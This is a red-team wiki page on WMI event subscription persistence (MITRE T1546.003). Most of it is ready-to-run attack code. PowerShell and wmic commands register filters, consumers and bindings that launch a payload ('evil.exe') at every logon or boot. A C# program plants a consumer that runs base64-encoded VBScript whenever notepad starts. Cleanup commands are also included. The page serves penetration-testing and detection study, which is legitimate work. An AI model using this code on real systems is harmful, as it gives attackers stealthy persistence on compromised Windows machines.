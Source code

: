 ```yaml
---
description: >-
  MITRE ATT&CK™  Event Triggered Execution: Windows Management Instrumentation
  Event Subscription - Technique T1546.003
---
```


# WMI Event Subscription

## Theory

Using WMI on a remote endpoint, we can perform persistence based on subscription to WMI events. Note that this technique can be used to perform lateral movements. [See this page](../../redteam/pivoting/remote-wmi.md#lateral-movement-via-wmi-event-subscription) for more information

Typically, WMI event subscription requires creation of the following three classes which are used to store the payload or the arbitrary command, to specify the event that will trigger the payload and to relate the two classes (\_\_EventConsumer &\_\_EventFilter) so execution and trigger to bind together.

* **\_\_EventFilter** // Trigger (new process, failed logon etc.)
* **EventConsumer** // Perform Action (execute payload etc.)
* **\_\_FilterToConsumerBinding** // Binds Filter and Consumer Classes

Implementation of this technique doesn’t require any toolkit since Windows has a utility that can interact with WMI (wmic) and PowerShell can be leveraged as well.

## Practice

{% tabs %}
{% tab title="Windows - Powershell" %}
Execution of the following commands using powershell will create in the name space of _“**root\subscription**“_ three events. You can set the arbitrary payload to execute within 5 seconds on **every new logon session creation** or within 60 seconds **every time Windows starts.**

```powershell
#Create filter
#Query to execute payload within 60 seconds every time Windows starts:
#SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325
$FilterArgs = @{name='v4resk-WMI';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceCreationEvent Within 5 Where TargetInstance Isa 'Win32_LogonSession'"};
$Filter = New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

#Create consumer
$ConsumerArgs = @{name='v4resk-WMI';
                CommandLineTemplate="$($Env:SystemRoot)\System32\evil.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

#Create cosnmerBinding (bind filter & consumer)
$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

We can cleanup using following commands

```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'v4resk-WMI'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'v4resk-WMI'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding"
 
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```
{% endtab %}

{% tab title="Windows - wmic.exe" %}
Execution of the following commands using wmic.exe will create in the name space of _“**root\subscription**“_ three events. You can set the arbitrary payload to execute within 5 seconds on **every new logon session creation** or within 60 seconds **every time Windows starts.**

```powershell
#Create filter to execute payload within 5 seconds on every new logon session creation:
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="JustAnEventFilter", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceCreationEvent Within 5 Where TargetInstance Isa 'Win32_LogonSession'"
#Or
#Create filter to execute payload within 60 seconds every time Windows starts:
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="JustAnEventFilter", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="JustAconsumer", ExecutablePath="C:\Windows\TEMP\evil.exe",CommandLineTemplate="C:\Windows\TEMP\evil.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"JustAnEventFilter\"", Consumer="CommandLineEventConsumer.Name=\"JustAconsumer\""
```
{% endtab %}

{% tab title="C#" %}
We can implement the same technique with following `C#` code

```csharp
// WMI Event Subscription Peristence Demo
// Author: @domchell

using System;
using System.Text;
using System.Management;

namespace WMIPersistence
{
    class Program
    {
        static void Main(string[] args)
        {
            PersistWMI();
        }

        static void PersistWMI()
        {
            ManagementObject myEventFilter = null;
            ManagementObject myEventConsumer = null;
            ManagementObject myBinder = null;

            string vbscript64 = "<INSIDE base64 encoded VBS here>";
            string vbscript = Encoding.UTF8.GetString(Convert.FromBase64String(vbscript64));
            try
            {
                ManagementScope scope = new ManagementScope(@"\\.\root\subscription");

                ManagementClass wmiEventFilter = new ManagementClass(scope, new
                ManagementPath("__EventFilter"), null);
                String strQuery = @"SELECT * FROM __InstanceCreationEvent WITHIN 5 " +            
        "WHERE TargetInstance ISA \"Win32_Process\" " +           
        "AND TargetInstance.Name = \"notepad.exe\"";

                WqlEventQuery myEventQuery = new WqlEventQuery(strQuery);
                myEventFilter = wmiEventFilter.CreateInstance();
                myEventFilter["Name"] = "demoEventFilter";
                myEventFilter["Query"] = myEventQuery.QueryString;
                myEventFilter["QueryLanguage"] = myEventQuery.QueryLanguage;
                myEventFilter["EventNameSpace"] = @"\root\cimv2";
                myEventFilter.Put();
                Console.WriteLine("[*] Event filter created.");

                myEventConsumer =
                new ManagementClass(scope, new ManagementPath("ActiveScriptEventConsumer"),
                null).CreateInstance();
                myEventConsumer["Name"] = "BadActiveScriptEventConsumer";
                myEventConsumer["ScriptingEngine"] = "VBScript";
                myEventConsumer["ScriptText"] = vbscript;
                myEventConsumer.Put();

                Console.WriteLine("[*] Event consumer created.");

                myBinder =
                new ManagementClass(scope, new ManagementPath("__FilterToConsumerBinding"),
                null).CreateInstance();
                myBinder["Filter"] = myEventFilter.Path.RelativePath;
                myBinder["Consumer"] = myEventConsumer.Path.RelativePath;
                myBinder.Put();

                Console.WriteLine("[*] Subscription created");
            }
            catch (Exception e)
            {
                Console.WriteLine(e);
            } // END CATCH
            Console.ReadKey();
        } // END FUNC
    } // END CLASS
} // END NAMESPACE

```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/" %}
